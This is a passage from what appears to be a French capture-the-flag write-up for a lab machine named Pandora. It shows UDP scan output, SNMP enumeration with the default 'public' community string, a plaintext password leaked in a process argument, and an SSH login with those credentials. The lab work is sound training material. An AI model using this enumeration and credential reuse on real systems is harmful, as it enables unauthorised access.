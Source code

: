 ```bash
19315/udp open|filtered keyshadow       no-response
19632/udp open|filtered unknown         no-response
19682/udp open|filtered unknown         no-response
20003/udp open|filtered commtact-https  no-response
20004/udp open|filtered unknown         no-response
20791/udp open|filtered unknown         no-response
21320/udp open|filtered unknown         no-response
21524/udp open|filtered unknown         no-response
21923/udp open|filtered unknown         no-response
22053/udp open|filtered unknown         no-response
27899/udp open|filtered unknown         no-response
31625/udp open|filtered unknown         no-response
32772/udp open|filtered sometimes-rpc8  no-response
33354/udp open|filtered unknown         no-response
37393/udp open|filtered unknown         no-response
40708/udp open|filtered unknown         no-response
44508/udp open|filtered unknown         no-response
49152/udp open|filtered unknown         no-response
49222/udp open|filtered unknown         no-response
Service Info: Host: pandora
```

## Foothold

### snmpwalk : daniel
On utilise le logiciel **snmpwalk** pour afficher diverses informations :
```bash
$ snmpwalk -v2c -c public 10.10.11.136                   
iso.3.6.1.2.1.1.1.0 = STRING: "Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (243441) 0:40:34.41
iso.3.6.1.2.1.1.4.0 = STRING: "Daniel"
iso.3.6.1.2.1.1.5.0 = STRING: "pandora"
iso.3.6.1.2.1.1.6.0 = STRING: "Mississippi"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (34) 0:00:00.34
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
...
$ snmpwalk -v2c -c public 10.10.11.136 > snmpwalk.out
$ grep -rni string snmpwalk.out
...
1867:iso.3.6.1.2.1.25.4.2.1.5.962 = STRING: "--no-debug"
1868:iso.3.6.1.2.1.25.4.2.1.5.977 = STRING: "-k start"
1869:iso.3.6.1.2.1.25.4.2.1.5.1085 = STRING: "-u daniel -p HotelBabylon23"  <----------
1870:iso.3.6.1.2.1.25.4.2.1.5.1225 = STRING: "-k start"
...
```
On trouve les credentials de l'utilisateur Daniel. En essayant de se connecter en SSH, ça fonctionne :
```bash
$ ssh daniel@10.10.11.136
daniel@10.10.11.136's password: 

Last login: Fri Sep  5 12:29:55 2025 from 10.10.14.8
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
daniel@pandora:~$ whoami
daniel
daniel@pandora:~$ ls /home/
daniel  matt
```
On découvre alors l'utilisateur **matt**.
